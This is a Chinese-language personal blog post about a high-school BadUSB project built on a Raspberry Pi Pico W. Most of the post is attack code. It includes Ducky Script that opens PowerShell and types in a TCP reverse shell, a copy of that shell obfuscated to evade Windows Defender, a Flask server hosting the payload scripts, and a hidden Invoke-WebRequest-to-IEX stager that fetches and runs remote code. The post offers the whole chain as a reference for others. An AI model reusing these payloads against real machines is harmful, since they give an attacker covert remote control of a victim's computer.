 ```yaml
---
title: 我ㄉ高中專題
published: 2025-01-29
tags: [Life]
category: Cyber Security
draft: false
image: 'cover.jpg'
---
```


## 前言

在高三上因為課程的關係，所以我們需要在畢業前做一個專題，至於為什麼選擇 `BadUSB` 呢?其實是因為在參加那一年的 `HITCON Community` 官方有一個攤位是讓各位利用 `Badge` 當作 BadUSB 去開他們的電腦檔案
事後就去查了一下 `BadUSB` 延伸的其他攻擊，感覺蠻有趣的，而且當下也對於專題沒有其他想法，所以就決定來做 `BadUSB` ㄌ :D

## 開發板選擇

要做一個 BadUSB 其實有很多的開發板可以選擇，理論上支援 HID 就好了， 那我們為啥會特別選擇 `Raspberry Pi Pico W RP2040` 呢 ? ~~因為剛好我們科有然後加上我隊友跑去電子街買不到我原本要的 attiny 85~~。

## 前置設定

在做這個玩具ㄉ時候要先去 https://github.com/dbisu/pico-ducky 下載韌體(我也不太確定這樣叫對不對)，之後就照他的方式去做設定，接下來就可以開始想我們要如何寫整個 exploit chainㄌ 

## 製作

### Rick Roll

這是我拿來看 ducky script (BadUSB專用語言) 有哪些功能而寫出來ㄉ

```bash
REM Rick Roll with powershell 
DELAY 1000
GUI r # Winodws + R
DELAY 500
STRING powershell
DELAY 500
ENTER
DELAY 500
STRING Start-Process "https://www.youtube.com/watch?v=dQw4w9WgXcQ" 
ENTER
```

主要的概念就是 `Windows + R` 開出 `Powershell`，然後用 `Start-Process` 去開一個 youtube 影片醬子

### RCE without obfuscation

接著就開始做主軸ㄌ，我在 https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library/remote_access 發現了可以用於 `RCE` 的 `script`，然後就對他做了點小修改

```bash
REM RCE without obfuscation
DELAY 1500
GUI r
DELAY 500
STRING powershell 
DELAY 250
ENTER
DELAY 1500
STRING $client = New-`oBJ`ECt System.Net.Sockets.TCPClient("ip",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i
DELAY 100
STRING  = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N`ew-O`BjEcT -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i`EX $data 2>&1 | out-st`Ri`Ng );$sendback2  = $sendback + "PS " + (P`wd).Path + "> ";$sendbyte =
DELAY 100
STRING  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
DELAY 100
ENTER
```

反正就是把他拆成好幾節來用就對ㄌ，但這樣會遇到 Windows Defender 在搞鬼的問題 = =

![defender1](image.png)

### RCE with Obfuscation

所以我就想到 [pwn2ooown](https://pwn2ooown.tech/) 大佬在成大資安社某個月的讀書會有講過怎麼繞過 `Windows Defender`，簡單來說就是可以用 `Code obfuscation` 去繞過 Defender，於是就從 https://github.com/danielbohannon/Invoke-Obfuscation 搞了一個經過混淆過後的 `payload`

```bash
DELAY 1500
GUI r
DELAY 500
STRING powershell
DELAY 250
ENTER

DELAY 200
STRING $c=nEw-oBjECt SYstEm.NEt.SOcKEts.TCPClIEnt("10.16.20.23",4444);$s=$c.GetSTreAm();[byte[]]$b=0..65535|%{0};whILe(($i=$
DELAY 100
STRING s.REad($b,0,$b.LeNgTh))-ne 0){;$d=(NEw-OBjeCT -TYpeNamE sYsTeM.TeXt.ASCIIEncoding).GetStRIng($b,0,$i);$z=(ieX $d 2>&1|oU
DELAY 100
STRING t-STriNG);$x=$z+"RD "+(pwd)+"#";$y=([text.encoding]::ASCII).GEtByTEs($x);$s.WrIte($y,0,$y.LEnGTh);$s.FlUSh()};$c.CloSE()
DELAY 100
```

然後就成功了:D

![successful1](image-1.png)

![successful2](image-2.png)

### RCE With Server

為了讓整個作案過程變得更簡單且不容易出錯，我決定架一個伺服器讓受害者下載腳本並執行，所以就用 `Flask` 寫了一個破破的網頁，然後將上面的那一些 `payload` 轉成 `.ps` 的形式

app.py:
```python
from flask import Flask

app = Flask(__name__)

@app.route("/")

def index():
    with open("payload.ps", "r") as f:
        result = f.read()
    return result

@app.route("/payload2")
def payload2():
    with open("payload2.ps", "r") as f:
        result = f.read()
    return result

app.run("0.0.0.0", port=80, debug = False)
```

payload1.ps:
```bash
$c=nEw-oBjECt SYstEm.NEt.SOcKEts.TCPClIEnt("ip",port);$s=$c.GetSTreAm();[byte[]]$b=0..65535|%{0};whILe(($i=$s.REad($b,0,$b.LeNgTh))-ne 0){;$d=(NEw-OBjeCT -TYpeNamE sYsTeM.TeXt.ASCIIEncoding).GetStRIng($b,0,$i);$z=(ieX $d 2>&1|oUt-STriNG);$x=$z+"RD "+(pwd)+"#";$y=([text.encoding]::ASCII).GEtByTEs($x);$s.WrIte($y,0,$y.LEnGTh);$s.FlUSh()};$c.CloSE()
```

payload2.ps:
```bash
$client = New-`oBJ`ECt System.Net.Sockets.TCPClient("ip",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N`ew-O`BjEcT -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i`EX $data 2>&1 | out-st`Ri`Ng );$sendback2  = $sendback + "PS " + (P`wd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

做好前置作業之後就開始研究怎麼讓他下載並且執行，也順便可以繞過他會卡在終端機這種尷尬事情

![stuck](image-4.png)

最後用 `Invoke-WebRequest` 去載腳本，然後用 `-WindowsStyle hidden` 去隱藏 `.ps` 的執行

```bash
WINDOWS r
DELAY 500
STRING powershell
DELAY 500
ENTER
DELAY 500
STRING Start-Process -FilePath "powershell.exe" -ArgumentList "-NoProfile -WindowStyle Hidden -Command `"(Invoke-WebRequest -Uri url).Content | IEX`"" -PassThru
ENTER
DELAY 1000
STRING exit
ENTER
```

成功ㄉ影片在這邊uWu [點我](https://www.youtube.com/shorts/39QhWCww4Y0)

## 踩雷 

在安裝韌體的過程中，出現了一個奇怪的事情，就是在裝好全部所需的東西時，他會因為 EPPROM 裡面的東西沒有被完全清除而閃退，會發生這樣的問題我猜是因為官方的安裝是專門 for pico 的，所以就去官往載了一個可以格式化的東東(flash_nuke) [flash_nuke](https://datasheets.raspberrypi.com/soft/flash_nuke.uf2)

## 結論

其實還蠻好玩的www，這個專題其實我只花了不到一個禮拜就完成了，這也間接導致我們這組，每次專題課在玩遊戲就是在玩遊戲的路上xDD，最後也有在老師的推薦下去比了校內的專題比賽，但是因為來評分的教授好像對於資安這方面沒有到很了解(?，所以最後只有拿一個佳作而已，ㄛ然後偷偷臭一下，血氧機那種幾百年前的爛梗居然可以拿優勝，說實話感覺心裡有點不舒服QQ。最後這是這一整個專題的 repo，希望能給想做 `BadUSB` 的你當作一個參考~~ https://github.com/dkri3c1/school_project_BadUSB_rapi